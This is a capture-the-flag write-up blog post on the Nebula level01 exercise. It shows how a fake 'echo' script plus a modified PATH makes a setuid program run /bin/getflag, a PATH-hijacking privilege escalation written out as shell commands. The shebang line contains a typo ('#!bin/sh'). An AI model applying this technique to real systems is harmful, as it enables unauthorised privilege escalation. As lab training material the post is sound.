 ```yaml
---
layout: post
title: "Shell meta-variable"
category: CTF, Nebula
---
```





>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 01](http://exploit-exercises.com/nebula/level01) Agenda**: "There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?"

<center>
	<img src="/images/2015-02-01-$PATH_weakness/e8497d1e_291e1e57dd06b55bc0.jpg">
</center>

<br />

{% highlight sh linenos %}
level01@nebula:~$ /home/flag01/flag01
	and now what?

level01@nebula:~$ which sh
	/bin/sh

level01@nebula:~$ which getflag
	/bin/getflag
{% endhighlight %}

[which](http://en.wikipedia.org/wiki/Which_%28Unix%29) is a Unix command used to identify the location of executables. A [Unix shell](http://en.wikipedia.org/wiki/Unix_shell) is a command-line interpreter or shell that provides a traditional user interface for the Unix operating system. By definition on wiki, ["env"](https://en.wikipedia.org/wiki/Env) is used to either print a list of environment variables or run another utility in an altered environment without having to modify the currently existing environment

That's what we exacly need, replace [echo](http://en.wikipedia.org/wiki/Echo_%28command%29) with our own script.

{% highlight sh linenos %}
level01@nebula:~$ cat > ./echo
	#!bin/sh
	/bin/getflag;
{% endhighlight %}

At the end of input, press ["Ctrl+d"](http://unix.stackexchange.com/questions/110240/why-does-ctrl-d-eof-exit-the-shell). TLDR: just a signal saying that this is the end of a text stream. Consequently, the "*echo*" script was created in home directory. 

 - ["cat"](http://en.wikipedia.org/wiki/Cat_%28Unix%29) is a standard Unix utility that will output the contents of a specific file and can be used to concatenate and list files.
 - The [">"](http://sc.tamu.edu/help/general/unix/redirection.html) symbol means standard output redirection.
 - The dot("*.*") symbol, represents current directory (in our case, it's level01 user's home, "*/home/level01*")
 - The "*#!*" - called a [shebang](http://en.wikipedia.org/wiki/Shebang_%28Unix%29) and tells the parent shell which interpreter should be used to execute the script.

{% highlight sh linenos %}
level01@nebula:~$ chmod +x echo

level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

level01@nebula:~$ export PATH=/home/level01/:$PATH
level01@nebula:~$ /home/flag01/flag01
{% endhighlight %}

links:

 * <a href="http://en.wikipedia.org/wiki/PATH_%28variable%29">http://en.wikipedia.org/wiki/PATH_(variable)</a>
 * [http://stackoverflow.com/questions/7328223/unix-export-command](http://stackoverflow.com/questions/7328223/unix-export-command)
